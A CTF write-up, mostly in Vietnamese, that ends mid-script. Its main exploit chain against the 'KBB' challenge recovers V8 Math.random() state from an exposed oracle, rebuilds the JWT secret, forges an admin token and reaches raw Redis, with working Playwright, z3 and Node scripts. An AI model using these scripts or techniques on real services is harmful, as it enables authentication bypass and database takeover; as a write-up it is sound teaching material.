    for (size_t i = 1; i < left->groups.length; ++i) {
        if (left->groups.items[i].bytes.length >
            left->groups.items[left_largest].bytes.length) {
            left_largest = i;
        }
    }
    for (size_t i = 1; i < right->groups.length; ++i) {
        if (right->groups.items[i].bytes.length >
            right->groups.items[right_largest].bytes.length) {
            right_largest = i;
        }
    }

    if (left->groups.items[left_largest].bytes.length !=
        right->groups.items[right_largest].bytes.length) {
        return left->groups.items[left_largest].bytes.length >
               right->groups.items[right_largest].bytes.length;
    }
    return left->anchor_offset < right->anchor_offset;
}

static int find_best_candidate(const uint8_t *dump,
                               size_t dump_size,
                               Candidate *best)
{
    memset(best, 0, sizeof(*best));

    for (size_t offset = 0; offset < dump_size; ++offset) {
        if (!is_printable_movabs_anchor(dump, dump_size, offset)) {
            continue;
        }

        Candidate current;
        if (!try_candidate(dump, dump_size, offset, &current)) {
            continue;
        }

        if (!best->valid || candidate_is_better(&current, best)) {
            candidate_free(best);
            *best = current;
        } else {
            candidate_free(&current);
        }
    }

    return best->valid;
}

static size_t find_largest_group(const GroupList *groups)
{
    size_t largest = 0;
    for (size_t i = 1; i < groups->length; ++i) {
        if (groups->items[i].bytes.length >
            groups->items[largest].bytes.length) {
            largest = i;
        }
    }
    return largest;
}

static size_t find_shortest_non_largest_group(const GroupList *groups,
                                              size_t largest)
{
    size_t selected = UNKNOWN_STACK_OFFSET;
    for (size_t i = 0; i < groups->length; ++i) {
        if (i == largest) {
            continue;
        }
        if (selected == UNKNOWN_STACK_OFFSET ||
            groups->items[i].bytes.length < groups->items[selected].bytes.length) {
            selected = i;
        }
    }
    return selected;
}

static void print_hex(const char *name, const ByteBuffer *buffer)
{
    printf("%s hex (%zu bytes): ", name, buffer->length);
    for (size_t i = 0; i < buffer->length; ++i) {
        printf("%02X", buffer->bytes[i]);
    }
    putchar('\n');
}

static void print_text(const char *name, const ByteBuffer *buffer)
{
    printf("%s text (%zu bytes): ", name, buffer->length);
    for (size_t i = 0; i < buffer->length; ++i) {
        uint8_t byte = buffer->bytes[i];
        putchar(byte >= 0x20U && byte <= 0x7eU ? (int)byte : '.');
    }
    putchar('\n');
}

static int build_xor_output(const ByteBuffer *payload,
                            const ByteBuffer *key,
                            ByteBuffer *output)
{
    if (key->length == 0) {
        return 0;
    }

    if (!buffer_reserve(output, payload->length)) {
        return 0;
    }

    for (size_t i = 0; i < payload->length; ++i) {
        output->bytes[i] = payload->bytes[i] ^ key->bytes[i % key->length];
    }
    output->length = payload->length;
    return 1;
}

static void print_candidate(const char *path,
                            size_t dump_size,
                            const Candidate *candidate)
{
    size_t payload_index = find_largest_group(&candidate->groups);
    size_t key_index = find_shortest_non_largest_group(&candidate->groups,
                                                        payload_index);
    const OutputGroup *payload = &candidate->groups.items[payload_index];
    const OutputGroup *key = &candidate->groups.items[key_index];

    printf("input: %s (%zu bytes)\n", path, dump_size);
    printf("anchor file offset: 0x%zx\n", candidate->anchor_offset);
    printf("append-helper phase ends at file offset: 0x%zx\n",
           candidate->phase_end);
    printf("XOR instruction: file offset 0x%zx\n", candidate->xor_offset);
    printf("observed append calls: %zu\n", candidate->calls.length);

    for (size_t i = 0; i < candidate->calls.length; ++i) {
        const CallRecord *call = &candidate->calls.items[i];
        printf("  call %zu: call=0x%zx source-lea=0x%zx "
               "source=[rsp+0x%zx] destination=[rsp+0x%zx] length=%zu\n",
               i + 1,
               call->call_offset,
               call->source_lea_offset,
               call->source_offset,
               call->destination_offset,
               call->fragment_length);
        print_text("    fragment", &call->bytes);
    }

    printf("payload group: destination [rsp+0x%zx], %zu calls\n",
           payload->destination_offset,
           payload->call_count);
    print_hex("payload", &payload->bytes);
    print_text("payload candidate", &payload->bytes);

    printf("key group: destination [rsp+0x%zx], %zu calls\n",
           key->destination_offset,
           key->call_count);
    print_hex("key", &key->bytes);
    print_text("key", &key->bytes);

    ByteBuffer transformed = {0};
    if (build_xor_output(&payload->bytes, &key->bytes, &transformed)) {
        print_hex("XOR output", &transformed);
        print_text("XOR output", &transformed);
    }
    buffer_free(&transformed);
}

int main(int argc, char **argv)
{
    if (argc != 2) {
        fprintf(stderr, "usage: %s <memory-dump.bin>\n", argv[0]);
        return EXIT_FAILURE;
    }

    size_t dump_size = 0;
    uint8_t *dump = load_dump(argv[1], &dump_size);
    if (dump == NULL) {
        return EXIT_FAILURE;
    }

    Candidate candidate;
    if (!find_best_candidate(dump, dump_size, &candidate)) {
        fprintf(stderr,
                "no complete fragment/XOR data-flow found in %s\n"
                "the dump may be partial or may not contain the JIT region\n",
                argv[1]);
        free(dump);
        return EXIT_FAILURE;
    }

    print_candidate(argv[1], dump_size, &candidate);
    candidate_free(&candidate);
    free(dump);
    return EXIT_SUCCESS;
}
```
</details>

\- Giải thích:
- Các lệnh `mov` ghi 7 fragment vào vùng stack:
    - Nhóm đích thứ nhất: `KMA{`, `hehihi_`, `deepsek_`, `opussy_`, `chatlgbt}`
    - Nhóm đích thứ hai: `FL`, `AG`

- Các lệnh `lea` cung cấp địa chỉ nguồn của từng fragment trước mỗi lần gọi

- Năm lần gọi `r14` đầu tiên sử dụng nhóm đích thứ nhất, hai lần gọi sau sử dụng nhóm đích thứ hai..
- Ghép 5 fragment của nhóm đích thứ nhất theo đúng call order, ta khôi phục được sequence A: `KMA{hehihi_deepsek_opussy_chatlgbt}`.

\- Vùng nhớ ER:



\- Vùng nhớ RW:



> KMA{hehihi_deepsek_opussy_chatlgbt}

# KBB


Hint: https://chall.kcsc.vn:9007/backup.zip

## Reconnaissance


<details>
    <summary>main.ts:72-82</summary>

```
const endpoint = new Deno.QuicEndpoint({
  hostname: config.host,
  port: config.port,
});
const listener = endpoint.listen({
  cert: certificate.certificatePem,
  key: certificate.privateKeyPem,
  alpnProtocols: ["h3"],
  maxConcurrentBidirectionalStreams: 100,
  maxConcurrentUnidirectionalStreams: 100,
});
```

</details>

<details>
    <summary>webtransport.ts:53-64</summary>

```
async function acceptConnection(
  incoming: Deno.QuicIncoming,
  connectionId: number,
  store: GameStoreProvider,
  redisUrl: string,
  presharedKey: string,
): Promise<void> {
  try {
    const connection = await incoming.accept();
    const remoteAddress = formatAddress(connection.remoteAddr);
    const transport = await Deno.upgradeWebTransport(connection);
    await transport.ready;
...
```

</details>

$\implies$ **Web sử dụng network protocol stack: WebTransport &rarr; HTTP/3 &rarr; QUIC &rarr; UDP**

\- Trong đó:
- WebTransport: kênh song song 2 chiều, mở nhiều luồng trong 1 kết nối, thay vì tuần tự từ cặp HTTP Request và Response
- HTTP/3: chạy trên giao thức QUIC(UDP) thay vì TCP truyền thống
- QUIC: giao thức truyền tải mạng hiện đại do Google phát triển, chạy trên nền UDP, nhằm thay thế giao thức TCP cũ

\- Đây chính là lí do vì sao không thể truy cập trang web từ Chromium của Burp Suite (cũng như FoxyProxy). Proxy path của Burp không bắt được kết nối QUIC/WebTransport, mà hoạt động trên TCP

\- Server cấu hình cứng `alpnProtocols: ["h3"]`, không hề có fallback về HTTP/1.1 hay HTTP/2



&rarr; Không quan sát được traffic game, bắt buộc phải sử dụng client/browser khác có hỗ trợ WebTransport

**Từ một phần source code được hint, web sử dụng một số lớp phòng vệ khá chắc chắn**

1. CRLF Injection tại luồng game

<details>
    <summary>redis.ts:260-280</summary>

```
export function encodeRedisCommand(
  arguments_: ReadonlyArray<string>,
): Uint8Array {
  const encoder = new TextEncoder();
  const chunks: Uint8Array[] = [encoder.encode(`*${arguments_.length}\r\n`)];
  let totalLength = chunks[0]?.length ?? 0;
  for (const argument of arguments_) {
    const bytes = encoder.encode(argument);
    const prefix = encoder.encode(`$${bytes.length}\r\n`);
    const suffix = encoder.encode("\r\n");
    chunks.push(prefix, bytes, suffix);
    totalLength += prefix.length + bytes.length + suffix.length;
  }
  const encoded = new Uint8Array(totalLength);
  let offset = 0;
  for (const chunk of chunks) {
    encoded.set(chunk, offset);
    offset += chunk.length;
  }
  return encoded;
}
```

</details>

\- Server đóng gói chuỗi lệnh thô đúng dạng RESP2 Bulk Strings

\- Khai báo rõ độ dài byte `$<length>\r\n`. Khi này, kí tự `\r\n` được Redis coi là text thuần

2. Race condition khi submit điểm

<details>
    <summary>game_store.ts:15-42</summary>

```
const SUBMIT_SCORE_LUA = `
local existing = redis.call('HGET', KEYS[1], 'score')
if existing then
  return {0, existing}
end

redis.call('HSET', KEYS[1],
  'score', ARGV[1],
  'roundsPlayed', ARGV[2],
  'reason', ARGV[3],
  'timestamp', ARGV[4],
  'remoteAddress', ARGV[5],
  'playerId', ARGV[6],
  'playerName', ARGV[7])
redis.call('EXPIRE', KEYS[1], ARGV[8])

redis.call('HSET', KEYS[2], 'name', ARGV[7], 'lastPlayedAt', ARGV[4])
redis.call('HINCRBY', KEYS[2], 'gamesPlayed', 1)
redis.call('HINCRBY', KEYS[2], 'totalScore', ARGV[1])
redis.call('HINCRBY', KEYS[2], 'totalRounds', ARGV[2])
local best = redis.call('HGET', KEYS[2], 'bestScore')
if (not best) or tonumber(ARGV[1]) > tonumber(best) then
  redis.call('HSET', KEYS[2], 'bestScore', ARGV[1])
end

redis.call('ZADD', KEYS[3], 'GT', ARGV[1], ARGV[6])
return {1, ARGV[1]}
`;
```

</details>

\- Mọi thao tác kiểm tra điểm, ghi kết quả, cập nhật dữ liệu được thực thi chỉ trong một lần chạy script Lua

\- Redis xử lý script đơn luồng và nguyên tử (atomic), không thể xen ngang, ngắt giữa chừng

3. Prototype Pollution & Mass Assignment khi server nhận dữ liệu JSON

<details>
    <summary>protocol.ts:289-301</summary>

```
function requireOnlyKeys(
  object: Record<string, unknown>,
  allowed: ReadonlyArray<string>,
): void {
  const allowedSet = new Set(allowed);
  const unexpected = Object.keys(object).filter((key) => !allowedSet.has(key));
  if (unexpected.length !== 0) {
    throw new ProtocolError(
      `Unexpected field(s): ${unexpected.join(", ")}.`,
      "unexpected_field",
    );
  }
}
```

</details>

\- Server chỉ đọc các trường được khai báo, nằm trong allowlist khi gọi hàm

&rarr; Các thuộc tính lạ như : \_\_proto\_\_, constructor, isAdmin đều bị báo lỗi

4. JWT authentication bypass

\- Tại `server/jwt.ts`:
- Hàm `signJwt()` tạo JWT cố định HS256/JWT và ký payload bằng HMAC-SHA256
- Hàm `verifyJwt()` kiểm tra đủ 3 phần, alg, typ, chữ ký HMAC, playerId, name,...

&rarr; Loại bỏ các hướng bypass đơn giản như `alg:none` và sửa trực tiếp claim admin

## Exploit

\- Sau khi fuzz lần lượt các input đi vào web, logic game. Cảm nhận gần như đã hết đường đi để giải quyết chall này

\- Thế nhưng, tại `jwt.ts:4`, hàm `Math.random()` được gọi ba lần để tạo JWT secret

```
export const JWT_Secret = `${Math.random()}-${Math.random()}-${Math.random()}`;
```
> [!NOTE]
> Đến đây thì infra sập nên PoC chay

### 1. Chuỗi lỗ hổng

**JWT secret sinh từ PRNG dự đoán được** (`server/jwt.ts:4`)

\- Secret được tạo một lần duy nhất lúc server khởi động

\- Đây là HMAC key dùng để ký mọi JWT của hệ thống, bao gồm cả admin JWT

&rarr; Rất có thể đây sẽ là hướng đi giúp giải quyết chall này

**Server làm lộ chính PRNG đó ra ngoài** (`server/webtransport.ts:373-387`)

\- Hàm `Math.random()` hoạt động dựa trên PRNG - bộ sinh số giả ngẫu nhiên

\- Do chạy cùng một tiến trình Deno, cả jwt sercet và `get_random` đều dùng chung một trạng thái PRNG

```
case "get_random": {
  const value = Math.random();
  return { type: "random", requestId: message.requestId, value };
}
```

\- Message `get_random` trong game protocol trả thẳng output của `Math.random()` về client

\- Rate limit 20 request/giây trên mỗi connection

\- Lí do của việc brute-force mẫu random lại leak được jwt secret:
- PRNG không hoàn toàn random, có một trạng thái nội bộ, với V8/Deno là 128 bit của xorshift128+, gồm 2 số uint64 `s0`, `s1`
- Mỗi lần gọi `Math.random()` thì state chuyển sang trạng thái kế tiếp theo một hàm toán học cố định và nhả ra một output

&rarr; Biết state tại một thời điểm = biết toàn bộ quá khứ và tương lai của mọi giá trị `Math.random()` trong tiến trình đó

\- `get_random` đóng vai trò **PRNG oracle** (cửa ngõ làm rò rỉ dữ liệu): mỗi output lộ 53 bit cao của state.
- Nhiều mẫu liên tiếp ràng buộc lẫn nhau qua hàm chuyển state tới mức chỉ còn duy nhất một cặp (s0, s1) khả dĩ

\- 3 lần gọi `Math.random()` tạo secret cũng nằm trong chuỗi output này. Thuật toán xorshift128+ có thể dịch ngược được từng bước, nên từ state hiện tại có thể lùi ngược về thời điểm lúc server mới khởi tạo, đọc lại đúng 3 output đã dùng làm secret

**Route admin không đi qua game authentication** (`server/webtransport.ts:73-83`)

```
if (pathname === "/admin/redis-cmd") {
  await serveAdminRedisStreams(transport, redisUrl, connectionId);
  return;   // return trước khi chạm authenticateGameStream()
}
```

\- Route `/admin/redis-cmd` nằm trước preshared-key handshake của game game

\- Tại `server/admin_redis.ts:40-65`, server chỉ verify chữ ký JWT và kiểm tra đúng một boolean `admin === true`, sau đó chuyển tiếp luồng bytes hai chiều thẳng vào Redis, không qua bộ lọc

&rarr; Chain hoàn chỉnh:

```
Math.random() JWT secret  +  Math.random() oracle (get_random)  +  admin route không cần game auth
        │                            │                                     │
        └────── khôi phục secret ────┴──── forge admin JWT ─────┴──► raw Redis ──► GET FLAG
```

### 2. Game stream

\- Bắt buộc phải vào được game stream do `get_random` chỉ tồn tại trong game protocol

\- Server đòi preshared key được sinh bên trong WASM client, so sánh constant-time &rarr; không đọc hay bypass được &rarr; muốn có stream authenticated thì phải cho WASM thật tự handshake trong browser

\-  WASM có anti-tamper: định kỳ kiểm tra prototype của stream, phát hiện bị override là giết connection sau khoảng 2giây

\- Hook phải được inject trước khi WASM khởi tạo, sử dụng `add_init_script` của Playwright 

\- Bypass: override tạm `getWriter`/`getReader`
- Khi WASM khởi tạo stream nó tự gọi 2 hàm này, hàm đã bị hook chạy và chụp lấy writer thật cùng một bản sao của reader, sau đó restore prototype về nguyên bản ngay lập tức
- Guard chỉ kiểm tra theo chu kỳ nên tới lượt nó check thì prototype đã sạch, connection vẫn còn sống

&rarr; Cầm được writer/reader của stream đã authenticated, gửi/nhận message tùy ý do server không phân biệt được message từ game hay từ ta

### 3. Thu thập random output và player JWT

```
python3 collect_with_token.py > /tmp/kbb-combined.json
```

<details>
    <summary>collect_with_token.py</summary>

```
import asyncio
import json
import os
import uuid
from playwright.async_api import async_playwright


INIT = r"""
(() => {
  window.__kbb = { writer: null, inbox: [], errors: [], teed: false };
  const ogw = WritableStream.prototype.getWriter;
  WritableStream.prototype.getWriter = function(...a) {
    const w = ogw.apply(this, a);
    if (!window.__kbb.writer) window.__kbb.writer = w;
    WritableStream.prototype.getWriter = ogw;
    return w;
  };
  const ogr = ReadableStream.prototype.getReader;
  const tap = (r) => (async () => {
    const dec = new TextDecoder();
    try {
      while (true) {
        const x = await r.read();
        if (x.value) window.__kbb.inbox.push(dec.decode(x.value, {stream:true}));
        if (x.done) break;
      }
    } catch (e) { window.__kbb.errors.push(String(e)); }
  })();
  ReadableStream.prototype.getReader = function(...a) {
    if (!window.__kbb.teed && this && typeof this.tee === 'function') {
      try {
        const branches = this.tee();
        const appReader = ogr.apply(branches[0], a);
        tap(ogr.apply(branches[1], a));
        window.__kbb.teed = true;
        ReadableStream.prototype.getReader = ogr;
        return appReader;
      } catch (e) { window.__kbb.errors.push('tee:' + e.message); }
    }
    const r = ogr.apply(this, a);
    ReadableStream.prototype.getReader = ogr;
    return r;
  };
  window.__kbb.drain = () => ({
    inbox: window.__kbb.inbox.splice(0),
    errors: window.__kbb.errors.splice(0),
  });
  window.__kbb.send = async (obj) => {
    await window.__kbb.writer.write(new TextEncoder().encode(JSON.stringify(obj) + '\n'));
  };
})();
""";


TARGET_URL = os.environ.get("KBB_URL", "https://chall.kcsc.vn:9007/")
REQUEST_COUNT = int(os.environ.get("KBB_RANDOM_COUNT", "400"))
REQUEST_GAP_MS = int(os.environ.get("KBB_GAP_MS", "55"))


async def main():
    async with async_playwright() as pw:
        browser = await pw.chromium.launch(headless=True, args=["--ignore-certificate-errors"])
        ctx = await browser.new_context(ignore_https_errors=True)
        await ctx.add_init_script(INIT)
        page = await ctx.new_page()
        await page.goto(TARGET_URL, wait_until="domcontentloaded")
        for _ in range(600):
            if await page.evaluate("Boolean(window.__kbb.writer && window.__kbb.teed)"):
                break
            await page.wait_for_timeout(100)
        if not await page.evaluate("Boolean(window.__kbb.writer && window.__kbb.teed)"):
            raise RuntimeError("hook did not capture the game stream within 60s — reload/retry")
        await page.wait_for_timeout(2500)
        await page.evaluate("window.__kbb.drain()")
        run_id = uuid.uuid4().hex[:8]
        request_prefix = f"meomeo-combined-{run_id}"
        await page.evaluate("""async ({prefix, count, gap}) => {
          for (let i = 0; i < count; i++) {
            await window.__kbb.send({type: 'get_random', requestId: prefix + '-' + i});
            await new Promise((resolve) => setTimeout(resolve, gap));
          }
        }""", {"prefix": request_prefix, "count": REQUEST_COUNT, "gap": REQUEST_GAP_MS})
        await page.wait_for_timeout(3000)
        random_result = await page.evaluate("window.__kbb.drain()")
        await page.evaluate("window.__kbb.send({type:'identify_player', playerId:'22222222-2222-4222-8222-222222222222', name:'meomeo'})")
        await page.wait_for_timeout(1200)
        token_result = await page.evaluate("window.__kbb.drain()")
        raw = "".join(random_result.get("inbox", [])) + "\n" + "".join(token_result.get("inbox", []))
        messages = []
        for line in raw.splitlines():
            try:
                value = json.loads(line)
            except Exception:
                continue
            messages.append(value)
        randoms = [x for x in messages if x.get("type") == "random"]
        index_of = {}
        for item in randoms:
            rid = str(item.get("requestId", ""))
            if rid.startswith(request_prefix + "-"):
                try:
                    index_of[item["requestId"]] = int(rid.rsplit("-", 1)[1])
                except ValueError:
                    pass
        randoms.sort(key=lambda item: index_of.get(item.get("requestId"), 1 << 30))
        protocol_errors = [x for x in messages if x.get("type") == "protocol_error"]
        token = next((x.get("token") for x in messages if x.get("type") == "player_identified"), None)
        expected_ids = {f"{request_prefix}-{i}" for i in range(REQUEST_COUNT)}
        observed_ids = {item.get("requestId") for item in randoms}
        missing_ids = sorted(expected_ids - observed_ids)
        errors = random_result.get("errors", []) + token_result.get("errors", [])
        if len(randoms) != REQUEST_COUNT or missing_ids or protocol_errors or token is None or errors:
            raise RuntimeError(json.dumps({
                "random_count": len(randoms),
                "expected": REQUEST_COUNT,
                "missing": missing_ids[:10],
                "protocol_errors": protocol_errors[:5],
                "token_present": token is not None,
                "errors": errors,
            }))
        print(json.dumps({"random_count": len(randoms), "randoms": randoms, "token": token, "errors": errors}))
        await browser.close()


asyncio.run(main())

```

</details>

- Playwright mở headless Chromium
- Tự inject hook rồi tự gửi message

\- Sau khi WASM tự hoàn tất handshake, script gửi 240 message `get_random`, mỗi message cách nhau 70ms, khoảng 14 req/s - không bị rate limit, rồi gửi một `identify_player` để server cấp một player JWT hợp lệ (`admin:false`)



\- **Hai ràng buộc bắt buộc:**

- Random samples, player JWT và JWT secret phải thuộc cùng một server process
- Các mẫu phải liên tiếp trong chuỗi PRNG - các client khác cũng gọi `get_random` làm state bị nhảy giữa các mẫu của ta, xen một output lạ vào giữa là chuỗi đứt

&rarr; collect xong phải xử lý ngay, và duyệt dữ liệu tìm block liên tiếp dài nhất mà một state duy nhất dự đoán khớp

### 4. Khôi phục state xorshift128+ và reverse về ban đầu

\- `Math.random()` trên target (Deno/V8 64-bit) dùng biến thể xorshift128+ direct:

```
state: hai số uint64 (s0, s1)

x      = s0
newS0  = s1
x     ^= x << 23
x     ^= x >> 17        (logical shift)
x     ^= s1
x     ^= s1 >> 26
newS1  = x

sum    = (newS0 + newS1) mod 2^64
value  = (sum >> 11) / 2^53      <- giá trị Math.random() trả về
```

\- `Math.random()` chỉ lộ 53 bit cao của `sum`, nhưng nhiều output liên tiếp đủ ràng buộc state 128-bit

1. Khôi phục trạng thái các mẫu random thu thập được:

```
python3 solve_state.py /tmp/kbb-combined.json
```

<details>
    <summary>solve_state.py</summary>

```
import json, os, sys
from z3 import BitVec, BitVecVal, LShR, Solver, sat

MASK = (1 << 64) - 1
MIN_VERIFIED_RUN = int(os.environ.get('KBB_MIN_RUN', '6'))

def step(a, b):
    x = a
    a = b
    x ^= (x << 23) & MASK
    x ^= x >> 17
    x ^= b
    x ^= b >> 26
    b = x & MASK
    return a, b, ((a + b) & MASK) >> 11

def solve_window(outs, start, N):
    s = Solver()
    a = BitVec('a', 64); b = BitVec('b', 64)
    x0, x1 = a, b
    for i in range(N):
        x = x0; x0 = x1
        # Math.random() uses logical right shifts.  In z3py, `>>` on a
        # BitVec is arithmetic, so use LShR explicitly.
        x = x ^ (x << 23)
        x = x ^ LShR(x, 17)
        x = x ^ x1
        x = x ^ LShR(x1, 26)
        x1 = x
        s.add(LShR(x0 + x1, 11) == BitVecVal(outs[start + i], 64))
    if s.check() == sat:
        m = s.model()
        return m[a].as_long(), m[b].as_long()
    return None

def main():
    input_path = sys.argv[1] if len(sys.argv) > 1 else '/tmp/kbb-combined.json'
    with open(input_path, encoding='utf-8') as handle:
        data = json.load(handle)
    randoms = data.get('randoms')
    if not isinstance(randoms, list):
        raise SystemExit('input JSON must contain a randoms array')
    outs = [round(float(item['value']) * (1 << 53)) for item in randoms]
    if len(outs) < 4:
        raise SystemExit(f'need at least 4 random samples, got {len(outs)}')
    best = None
    # scan from the END backwards: freshest block minimizes time-to-admin
    for start in range(len(outs) - 4, -1, -1):
        r = solve_window(outs, start, 4)
        if not r:
            continue
        a, b = r
        i = start
        while i < len(outs):
            a, b, o = step(a, b)
            if o != outs[i]:
                break
            i += 1
        run = i - start
        if best is None or i > best[0] + best[1] or (i == len(outs) and start + run == len(outs)):
            if best is None or run > best[1]:
                best = (start, run, r[0], r[1], i)
        if i == len(outs) and run >= 6:
            break  # good enough: reaches the freshest sample
    if not best or best[1] < MIN_VERIFIED_RUN:
        print(json.dumps({
            'ok': False,
            'reason': 'no sufficiently long contiguous block',
            'minimum_run': MIN_VERIFIED_RUN,
            'best_run': 0 if not best else best[1],
        }))
        return
    start, run, S0, S1, end = best
    print(json.dumps({'ok': True, 'start': start, 'verified_run': run,
                      'end': end, 's0': hex(S0), 's1': hex(S1),
                      'total': len(outs)}))

main()

```

</details>

- Mô hình hóa phép chuyển trạng thía và phép cộng modular trong z3 BitVec 64-bit
- Duyệt qua các mẫu để tìm ra chuỗi số ngẫu nhiên liên tục dài nhất không bị ngắt quãng

Kết quả:


```
s0 = 0xc34fa3cf7f220aa7
s1 = 0xffc15a16a0aa60e1
```

\- Advance state này 6 bước dự đoán khớp toàn bộ sample 234-239 &rarr; chứng minh block sạch, mẫu liên tiếp không bị chen ngang

2. Quay ngược trạng thái PRNG về lúc server khởi động:

```
oldS1  = newS0
mixed  = newS1 XOR oldS1 XOR (oldS1 >> 26)
oldS0  = undo_left( undo_right(mixed, 17), 23 )

undo_right(y, k) = y XOR (y >> k) XOR (y >> 2k) XOR ...
undo_left (y, k) = y XOR (y << k) XOR (y << 2k) XOR ...
```

\- Vì xorshift128+ là hàm khả nghịch, từ state vừa solve được ta reverse ngược từng bước để lấy lại toàn bộ các output Math.random() đã sinh ra trước đó

\- Cứ mỗi 3 output liên tiếp, ghép lại thành chuỗi "a-b-c", rồi kí thử JWT bằng HMAC cho đến khi khớp

```
PLAYER_JWT="$(python3 -c 'import json; print(json.load(open("/tmp/kbb-combined.json"))["token"])')"
node recover_combined_secret.mjs "$PLAYER_JWT" 20000 0xc34fa3cf7f220aa7 0xffc15a16a0aa60e1 6
```

<details>
    <summary>recover_combined_secret.mjs</summary>

```
import { createHmac } from 'node:crypto';

const token = process.argv[2];
const maxBack = Number(process.argv[3] ?? 20000);
const stateBeforeArg = process.argv[4];
const stateBeforeS1Arg = process.argv[5];
const sampleCount = Number(process.argv[6] ?? 222);
if ((stateBeforeArg === undefined) !== (stateBeforeS1Arg === undefined)) {
  throw new Error('state arguments must include both s0 and s1');
}
const MASK = (1n << 64n) - 1n;
let state = stateBeforeArg === undefined
  ? [0x41f3a81cc82c4a9dn, 0x539b9c2da1391b21n]
  : [BigInt(stateBeforeArg), BigInt(stateBeforeS1Arg)];
const contiguousSamples = sampleCount;
for (let i = 0; i < contiguousSamples; i++) state = step(state[0], state[1]);

function step(s0, s1) {
  let x = s0;
  const n0 = s1;
  x = (x ^ (x << 23n)) & MASK;
  x = (x ^ (x >> 17n)) & MASK;
  x = (x ^ s1) & MASK;
  x = (x ^ (s1 >> 26n)) & MASK;
  return [n0, x];
}
function undoRight(value, shift) {
  let x = 0n;
  for (let v = value; v !== 0n; v >>= BigInt(shift)) x ^= v;
  return x;
}
function undoLeft(value, shift) {
  let x = 0n;
  for (let v = value; v !== 0n; v = (v << BigInt(shift)) & MASK) x ^= v;
  return x;
}
function back(s0, s1) {
  const oldS1 = s0;
  const mixed = (s1 ^ oldS1 ^ (oldS1 >> 26n)) & MASK;
  return [undoLeft(undoRight(mixed, 17), 23) & MASK, oldS1];
}
function secretAt(s0, s1) {
  const values = [];
  for (let i = 0; i < 3; i++) {
    values.push(String(Number(((s0 + s1) & MASK) >> 11n) / 2 ** 53));
    [s0, s1] = back(s0, s1);
  }
  return values.reverse().join('-');
}
const input = token.split('.').slice(0, 2).join('.');
const expected = token.split('.')[2];
for (let i = 0; i <= maxBack; i++) {
  const secret = secretAt(state[0], state[1]);
  const signature = createHmac('sha256', secret).update(input).digest('base64url');
  if (signature === expected) {
    console.log(JSON.stringify({ found: true, backsteps: i, secret }));
    process.exit(0);
  }
  [state[0], state[1]] = back(state[0], state[1]);
  if (i % 1000 === 0) console.error('checked', i);
}
console.log(JSON.stringify({ found: false, maxBack }));

```

</details>

- Dò ngược từ state PRNG hiện tại về 3 output `Math.random()` gốc đã tạo ra JWT secret

- Ký thử JWT với mọi secret xem cái nào khớp chữ ký thật

\- Sau 240 bước: 



### 5. Forge admin JWT và mở admin stream


```
node admin_redis.mjs "0.6440451856008497-0.6877307958265334-0.5724219446176407"
```

<details>
    <summary>admin_redis.mjs</summary>

```
import { WebTransport, quicheLoaded } from '@fails-components/webtransport';
import { createHmac } from 'node:crypto';

await quicheLoaded;

const CERT_HASH_HEX = process.argv[4] ?? process.env.KBB_CERT_HASH ?? 'b8b50c38573fdc7b6c3a29a91a8df707cca69a43de0f12eeca9dde99eb31ed49';
const URL_ = process.env.KBB_ADMIN_URL ?? 'https://chall.kcsc.vn:9007/admin/redis-cmd';
const secret = process.argv[2] ?? process.env.KBB_JWT_SECRET;
if (!secret) throw new Error('usage: node admin_redis.mjs RECOVERED_SECRET [quick] [CERT_HASH_HEX]');
const IO_TIMEOUT_MS = Number(process.env.KBB_IO_TIMEOUT_MS ?? 15000);

function withTimeout(promise, label, timeout = IO_TIMEOUT_MS) {
  let timer;
  const timeoutPromise = new Promise((_, reject) => {
    timer = setTimeout(() => reject(new Error(`${label} timed out after ${timeout}ms`)), timeout);
  });
  return Promise.race([promise, timeoutPromise]).finally(() => clearTimeout(timer));
}

function b64url(value) {
  return Buffer.from(value).toString('base64url');
}

function signAdminJwt() {
  const header = b64url(JSON.stringify({ alg: 'HS256', typ: 'JWT' }));
  const payload = b64url(JSON.stringify({ admin: true, iat: Math.floor(Date.now() / 1000) }));
  const input = `${header}.${payload}`;
  const signature = createHmac('sha256', secret).update(input).digest('base64url');
  return `${input}.${signature}`;
}

function encodeCommand(args) {
  const chunks = [`*${args.length}\r\n`];
  for (const arg of args) {
    const bytes = Buffer.from(String(arg));
    chunks.push(`$${bytes.length}\r\n`, bytes, '\r\n');
  }
  return Buffer.concat(chunks.map((chunk) => Buffer.isBuffer(chunk) ? chunk : Buffer.from(chunk)));
}

class RespReader {
  constructor(reader) {
    this.reader = reader;
    this.buffer = Buffer.alloc(0);
  }

  async fill() {
    const { value, done } = await withTimeout(this.reader.read(), 'RESP read');
    if (done) throw new Error('WebTransport stream ended while reading RESP');
    if (value && value.byteLength) this.buffer = Buffer.concat([this.buffer, Buffer.from(value)]);
  }

  async exact(length) {
    while (this.buffer.length < length) await this.fill();
    const value = this.buffer.subarray(0, length);
    this.buffer = this.buffer.subarray(length);
    return value;
  }

  async line() {
    while (true) {
      const index = this.buffer.indexOf('\r\n');
      if (index >= 0) {
        const value = this.buffer.subarray(0, index).toString();
        this.buffer = this.buffer.subarray(index + 2);
        return value;
      }
      await this.fill();
    }
  }

  async controlLine() {
    while (true) {
      const index = this.buffer.indexOf('\n');
      if (index >= 0) {
        const value = this.buffer.subarray(0, index).toString().replace(/\r$/u, '');
        this.buffer = this.buffer.subarray(index + 1);
        return value;
      }
      await this.fill();
    }
  }

  async reply() {
    const marker = (await this.exact(1)).toString();
    const line = await this.line();
    if (marker === '+') return line;
    if (marker === '-') throw new Error(`Redis error: ${line}`);
    if (marker === ':') return Number(line);
    if (marker === '$') {
      const length = Number(line);
      if (length < 0) return null;
      const value = await this.exact(length);
      await this.exact(2);
      return value.toString();
    }
    if (marker === '*') {
      const length = Number(line);
      if (length < 0) return null;
      const values = [];
      for (let i = 0; i < length; i++) values.push(await this.reply());
      return values;
    }
    throw new Error(`Unsupported RESP marker ${JSON.stringify(marker)}`);
  }
}

async function main() {
  const token = signAdminJwt();
  console.log('JWT', token);
  let transport;
  let writer;
  try {
    transport = new WebTransport(URL_, {
      serverCertificateHashes: [{ algorithm: 'sha-256', value: Buffer.from(CERT_HASH_HEX, 'hex') }],
    });
    await withTimeout(transport.ready, 'WebTransport ready');
    console.log('CONNECTED', URL_);
    const stream = await withTimeout(transport.createBidirectionalStream(), 'stream creation');
    writer = stream.writable.getWriter();
    const responses = new RespReader(stream.readable.getReader());
    const enc = new TextEncoder();

    await writer.write(enc.encode(JSON.stringify({ type: 'auth', token }) + '\n'));
    const control = await withTimeout(responses.controlLine(), 'admin control response');
    console.log('CONTROL', control);
    const controlValue = JSON.parse(control);
